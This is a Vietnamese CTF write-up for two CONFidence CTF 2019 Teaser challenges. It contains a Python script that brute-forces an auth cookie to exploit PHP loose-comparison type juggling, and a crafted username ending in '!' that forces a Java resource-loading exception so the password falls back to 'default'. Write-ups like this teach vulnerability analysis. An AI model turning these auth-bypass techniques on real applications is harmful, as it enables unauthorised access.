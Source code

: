 ```yaml
---
layout: post
title: CONFidence CTF 2019 Teaser
---
```

# CONFidence CTF 2019 Teaser
Giải do team p4 tổ chức, có khá nhiều bài hay :))) Nhưng là mới chỉ là Teaser thôi nên mình vẫn chưa ngập hành. 


![alt text](https://raw.githubusercontent.com/matuhn/matuhn.github.io/master/images/con1.png "CONFidence CTF 2019")

# My admin panel (WEB)
[Link Challenge](https://gameserver.zajebistyc.tf/admin/)

Vào challenge mình thấy có ngay 2 file là login.php và login.php.bak (File Backup)

![alt text](https://raw.githubusercontent.com/matuhn/matuhn.github.io/master/images/con2.png "/admin")

Nội dung file index.php.bak

```PHP
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();
```

Đọc hiểu code thì nó sẽ lấy giá trị của cookie `otadmin` check xem có dạng /^{"hash": [0-9A-Z\"]+}$/ hay là không
Nói dễ hiểu hơn thì cookie sẽ phải có dạng json {"hash" : "abcxyz123jj"} thì pass cái if 1 và if 2 if 3
để pass cái if thứ 4 thì cái giá trị của hash khi parse vào phải bằng với giá trị của `strtoupper(MD5($cfg_pass))`

Nếu không thể pass if 4 nó sẽ gợi ý cho mình bằng function sau 

```PHP

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }
```

Output:

```
0 0 0 64 64 64 0 64 0 0 64 0 0 0 64 64 64 64 0 0 0 64 0 0 64 0 64 0 64 64 0 0
```

Sau 1 hồi nghịch ngợm với cái đống này thì mình phát hiện ra 1 điều 
Nếu `ord(MD5($cfg_pass)[$i])` return từ 0 - 63 thì `ord(MD5($cfg_pass)[$i]) & 0xC0` = 0
Còn lại thì sẽ ra 64, điều đó đồng nghĩa với việc với 1 mỗi 1 con số từ 0-9 -> sẽ có 1 số 0 
và nếu là kí tự , thì sẽ có số 64 
So sánh với Output ở trên mình sẽ có 3 giá trị đầu tiên là number , và giá trị thứ 4 là character 

Tất nhiên là không thể brute được cái cfg_pass là gì, làm gì có cái mùa xuân đó, nếu brute được thì chắc mất cả năm 
Nên mình nhìn lại toàn bộ source code 1 lần nữa thì dòng này khiến cho mình chú ý 

```PHP
if ($session_data['hash'] != strtoupper(MD5($cfg_pass)))
```

Tại sao là `!=` chứ không phải là `!==` ? PHP Type Juggling ? Trùng hợp là 3 kí tự đầu tiên lại là number 
Chắc chắn là Type Juggling 

Solution: 

```python
import requests,json
def bruteCookie(i):
    url = "https://gameserver.zajebistyc.tf/admin/login.php"
    cookie = json.dumps({
        "hash" : (i)
    })
    cookie = {"otadmin" : cookie}
    print (cookie)
    answer = requests.get(url,cookies=cookie)
    if not "I CAN EVEN " in answer.text:

        print answer.text


for i in range(1,999):
    bruteCookie(i)
```

Flag : `p4{wtf_php_comparisons_how_do_they_work}`

# Sloik (MISC)

```
nc sloik.zajebistyc.tf 30001
```
Cho 2 file source, 1 file py, 1 file jar

Source Python:

```python
import os
import shutil
import signal
import subprocess
import sys

cwd = os.getcwd()
sandbox_name = ''


def cleanup(a, b):
    global sandbox_name
    if sandbox_name != '':
        sandbox_path = os.path.join(cwd, sandbox_name)
        if os.path.exists(sandbox_path):
            shutil.rmtree(sandbox_path)


def main():
    global sandbox_name
    signal.signal(signal.SIGALRM, cleanup)
    signal.alarm(10)

    print "username: ",
    sys.stdout.flush()
    sandbox_name = sys.stdin.readline().strip()
    sandbox_path = os.path.join(cwd, "sandbox", os.path.basename(sandbox_name))

    if os.path.exists(sandbox_path):
        print "Sorry, this name is taken"
        exit(1)
    else:
        os.mkdir(sandbox_path)
        java_app = 'sloik-1.0-SNAPSHOT-jar-with-dependencies.jar'
        shutil.copy(java_app, sandbox_path)
        flag_data = open('flag.txt','r').read()
        os.chdir(sandbox_path)
        subprocess.call(['java', '-Xmx8m', '-jar', java_app], stdin=sys.stdin, stdout=sys.stdout, stderr=sys.stderr, env={'flag': flag_data})
    os.chdir("../")
    cleanup("","")


main()
```

Source Java:

```java
/* 
 * Decompiled with CFR 0.140.
 */
package team.p4.sloik;

import java.io.InputStream;
import java.io.PrintStream;
import java.util.Properties;
import java.util.Scanner;

public class Main {
    public static void main(String[] args) {      
        Properties properties = new Properties(); 
        try {
            InputStream stream = Main.class.getResourceAsStream("/application.properties"); 
            properties.load(stream);
        }
        catch (Exception e) {
            properties.put("password", "default");
        }
        Scanner sc = new Scanner(System.in);
        System.out.println("Password:");
        String password = sc.nextLine();
        if (password.equals(properties.get("password"))) {
            System.out.println("Welcome admin, flag is: " + System.getenv("flag")); 
        }
    }
}
```

À, bài này nó cho file jar để đọc Code file jar thì mình xài [CFR](https://www.benf.org/other/cfr/)

ok nhìn vào thì khi nc tới server của nó, nó sẽ bắt mình nhập 2 thông tin là username và password
Username khi mình nhập vào nó sẽ dùng để tạo 1 folder ở server của nó, rồi copy cái file jar trên vào rồi check tiếp 
Nhìn qua file java thì nếu password trùng với password trong file config của nó thì ra flag 

```java
try {
            InputStream stream = Main.class.getResourceAsStream("/application.properties"); 
            properties.load(stream);
        }
        catch (Exception e) {
            properties.put("password", "default");
        }
```

Nhưng mà cái ở đây mình để ý là phần catch Exception, thầy dạy Java của mình ở trường đã bảo là khi code có vô số trường hợp xảy ra mà người lập trình không thể dự tính trước được thì sẽ catch lại bằng cái Exception 

Sẽ không có vấn đề gì với cái code này nếu người ra đề không phải là team p4
Thử Google 1 chút với keyword `getResourceAsStream jar throw exception report bug java` thì tìm dc [Link](https://bugs.java.com/bugdatabase/view_bug.do?bug_id=4523159) này 
Đại loại bug này là nếu mình thêm `!` vào sau cái tên directory thì khi `getResourceAsStream` parse vào sẽ quăng Exception 
Nếu bị quăng Exception thì sao? password sẽ được set thành `default` 
```
matuhn@SE130149:/mnt/d/ctf/tool/jd-gui$ nc sloik.zajebistyc.tf 30001
username: z3r0_n1ght!
Password:
default
Welcome admin, flag is: p4{fire_exclamation_mark_fire_exclamation_mark}
```


